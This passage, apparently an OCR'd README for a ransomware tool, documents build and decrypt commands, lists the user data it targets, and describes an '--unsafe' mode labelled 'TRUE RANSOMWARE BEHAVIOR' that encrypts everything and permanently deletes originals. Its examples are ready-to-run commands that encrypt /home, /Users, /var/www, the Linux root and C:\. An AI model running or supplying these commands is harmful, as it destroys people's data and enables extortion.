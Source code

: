 ```bash
make build-decrypt
./build/decrypt -dir /path/to/data -key private-backup -verbose

# Decrypt entire system
./build/decrypt -dir / -key private-backup -verbose
```

---

## 📁 What Gets Encrypted

### ✅ YES (User Data)

- Documents, photos, videos
- Applications (`.exe`, `.app`)
- Databases (`.db`, `.sqlite`)
- Config files (`.ini`, `.conf`)
- Development files (`build/`, `.git/`)
- Hidden user data (`.cache/`, `.config/`)
- **Everything in `/home`, `/Users`, `/var`, etc.**

### ❌ NO (Automatically Skipped)

- OS libraries (`.dll`, `.so`)
- System drivers (`.sys`, `.ko`)
- Security files (`.ssh/`, certificates)
- System directories (`/bin`, `/etc`)
- **System files needed for boot**

---

## 💀 UNSAFE MODE - TRUE RANSOMWARE BEHAVIOR

### What `--unsafe` Does:

- **Removes Blocks**: Can target `/home`, `/Users`, system areas
- **Maximum Aggression**: Encrypts ALL user data found
- **Root Directory**: Can target `/` or `C:\` (auto-skips system files)
- **Still Safe**: Protects critical OS files from damage
- **No Mercy**: Permanently deletes originals after encryption

### Examples:

```bash
# Encrypt user home (VERY DANGEROUS!)
./build/encrypt -dir /home/john --unsafe -verbose

# Encrypt all users (EXTREMELY DANGEROUS!)
./build/encrypt -dir /Users --unsafe -benchmark -verbose

# Encrypt web data (DANGEROUS!)
./build/encrypt -dir /var/www --unsafe -verbose

# ULTIMATE: Encrypt entire Linux system (MAXIMUM DANGER!)
./build/encrypt -dir / --unsafe -verbose

# ULTIMATE: Encrypt entire Windows system (MAXIMUM DANGER!)
./build/encrypt -dir C:\ --unsafe -verbose
```
